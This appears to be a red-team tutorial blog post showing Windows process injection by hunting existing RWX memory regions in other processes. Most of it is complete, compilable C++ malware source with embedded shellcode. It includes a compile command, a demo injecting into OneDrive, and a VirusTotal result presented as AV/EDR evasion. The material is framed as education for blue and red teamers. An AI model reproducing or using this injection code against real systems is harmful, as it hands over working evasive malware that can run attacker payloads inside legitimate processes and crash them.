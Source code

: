 ```yaml
---
title:  "Process injection via RWX-memory hunting. Simple C++ example."
date:   2022-02-01 10:00:00 +0600
header:
  teaser: "/assets/images/38/2022-02-02_15-59.png"
categories:
  - tutorial
tags:
  - injection
  - winapi
  - malware
  - red team
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![injection](/assets/images/38/2022-02-02_15-59.png){:class="img-responsive"}    

This is a self-researching of another process injection technique.   

### RWX-memory hunting    

Let's take a look at logic of our [classic](/tutorial/2021/09/18/malware-injection-1.html) code injection malware:    
```cpp
//...
// allocate memory buffer for remote process
rb = VirtualAllocEx(ph, NULL, my_payload_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

// "copy" data between processes
WriteProcessMemory(ph, rb, my_payload, sizeof(my_payload), NULL);

// our process start new thread
rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
//...
```

As you remember, we use `VirtualAllocEx` which is allows to us to allocate memory buffer for remote process, then, `WriteProcessMemory` allows you to copy data between processes. And `CreateRemoteThread` you can specify which process should start the new thread.    

What about another way? it is possible to enumerate currently running target processes on the compromised system - search through their allocated memory blocks and check if any those are protected with RWX, so we can attempt to write/read/execute them, which may help to evasion some AV/EDR.     

### practical example

The flow is this technique is simple, let's go to investigate its logic:   

Loop through all the processes on the system:    

![injection 2](/assets/images/38/2022-02-02_18-33.png){:class="img-responsive"}   

Loop through all allocated memory blocks in each process:

![injection 3](/assets/images/38/2022-02-02_18-35.png){:class="img-responsive"}   

Then, we check for memory block that is protected with `RWX`:    

![injection 4](/assets/images/38/2022-02-02_18-36.png){:class="img-responsive"}   

if ok, print our memory block (* for demonstration *):    

![injection 5](/assets/images/38/2022-02-02_18-38.png){:class="img-responsive"}   

write our payload to this memory block:    

![injection 6](/assets/images/38/2022-02-02_18-39.png){:class="img-responsive"}   

then start a new remote thread:    

![injection 7](/assets/images/38/2022-02-02_18-44.png){:class="img-responsive"}   

Full C++ source code of our malware is:    

```cpp
/*
hack.cpp
process injection technique via RWX memory hunting
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/02/01/malware-injection-16.html
*/
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  MEMORY_BASIC_INFORMATION m;
  PROCESSENTRY32 pe;
  LPVOID address = 0;
  HANDLE ph;
  HANDLE hSnapshot;
  BOOL hResult;
  pe.dwSize = sizeof(PROCESSENTRY32);

  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return -1;

  hResult = Process32First(hSnapshot, &pe);

  while (hResult) {
    ph = OpenProcess(MAXIMUM_ALLOWED, false, pe.th32ProcessID);
    if (ph) {
      printf("hunting in %s\n", pe.szExeFile);
      while (VirtualQueryEx(ph, address, &m, sizeof(m))) {
        address = (LPVOID)((DWORD_PTR)m.BaseAddress + m.RegionSize);
        if (m.AllocationProtect == PAGE_EXECUTE_READWRITE) {
          printf("rwx memory successfully found at 0x%x :)\n", m.BaseAddress);
          WriteProcessMemory(ph, m.BaseAddress, my_payload, sizeof(my_payload), NULL);
          CreateRemoteThread(ph, NULL, NULL, (LPTHREAD_START_ROUTINE)m.BaseAddress, NULL, NULL, NULL);
          break;
        }
      }
      address = 0;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }
  CloseHandle(hSnapshot);
  CloseHandle(ph);
  return 0;
}

```

As usually, for simplicity I used `meow-meow` messagebox payload:    

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### demo

Let’s go to see everything in action. Compile our practical example:    

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -Wint-to-pointer-cast -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![injection 8](/assets/images/38/2022-02-02_16-10.png){:class="img-responsive"}   

Then run it! In our case victim machine is `Windows 10 x64`:    

![injection 9](/assets/images/38/2022-02-02_16-10_1.png){:class="img-responsive"}  

As you can see, everything is worked perfectly! :)    

Let's go to check one of our victim process, for example `OneDrive`:    

![injection 10](/assets/images/38/2022-02-02_18-59.png){:class="img-responsive"}  

![injection 11](/assets/images/38/2022-02-02_16-09.png){:class="img-responsive"}  

> There is a one caveat. The provided below code is a dirty proof-of-concept and may crash certain processes. For example, in my case `SearchUI.exe` is crashet and not worked after run my example.    

Then, upload our malware to VirusTotal:    

![vt](/assets/images/38/2022-02-02_19-44.png){:class="img-responsive"}    

[https://www.virustotal.com/gui/file/5835847d11b7f891e70681e2ec3a1e22013fa3ffe31a36429e7814a3be40bd97/detection](https://www.virustotal.com/gui/file/5835847d11b7f891e70681e2ec3a1e22013fa3ffe31a36429e7814a3be40bd97/detection)    

**So, 7 of 69 AV engines detect our file as malicious.**    

`Moneta64.exe` result:

![moneta](/assets/images/38/2022-02-02_19-49.png){:class="img-responsive"}    

The reason why it's good to have this technique in your arsenal is because it does not require you to allocate new `RWX` memory to copy your payload over to by using `VirtualAllocEx` which is more popular and suspicious and which is more closely investigated by the blue teamers.

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[VirtualQueryEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualqueryex)    
[CreateToolhelp32Snapshot](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot)    
[Process32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32first)    
[Process32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32next)    
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[Taking a snapshot and viewing processes](https://docs.microsoft.com/en-us/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes)    
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)    
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)    
[Hunting memory](https://www.elastic.co/blog/hunting-memory)    
[Moneta64.exe](https://github.com/forrest-orr/moneta)    
[source code in Github](https://github.com/cocomelonc/2022-02-01-malware-injection-16)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
